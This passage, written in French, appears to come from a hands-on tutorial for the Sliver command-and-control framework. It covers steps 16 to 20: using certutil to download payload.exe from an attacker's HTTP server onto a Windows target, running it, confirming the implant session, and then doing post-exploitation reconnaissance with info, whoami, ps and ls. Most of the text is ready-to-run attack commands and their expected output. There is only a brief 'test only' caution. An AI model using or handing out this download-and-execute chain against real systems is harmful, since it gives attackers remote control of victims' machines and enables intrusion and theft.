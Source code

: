 ### **ÉTAPE 16** : Télécharger le payload sur la cible
```cmd
# Sur la machine Windows cible :
certutil -urlcache -split -f http://192.168.1.100:8080/payload.exe payload.exe
```
**🔴 REMPLACER** `192.168.1.100` par VOTRE IP

### **ÉTAPE 17** : Exécuter le payload sur la cible
```cmd
# Sur Windows (ATTENTION : uniquement en test !)
.\payload.exe
```

### **ÉTAPE 18** : Vérifier la connexion dans Silver
```bash
# Dans le client Silver (sliver >)
sessions
```
**✅ Résultat attendu** :
```
 ID         Transport   Remote Address      Hostname      Username          Operating System   Last Message 
========== =========== =================== ============= ================= ================== ==============
 a1b2c3d4   mtls        192.168.1.150:49234 WIN10-PC     DESKTOP\user      windows/amd64      1m ago
```

---

## 🔥 PHASE 7 : POST-EXPLOITATION

### **ÉTAPE 19** : Interagir avec la session
```bash
# Sélectionner la session
use a1b2c3d4
```
**✅ Résultat attendu** : Le prompt change vers `[a1b2c3d4] sliver >`

### **ÉTAPE 20** : Reconnaissance système
```bash
# Informations système
info

# Utilisateur actuel
whoami

# Processus en cours
ps

# Répertoire courant
pwd

# Lister les fichiers
ls
```
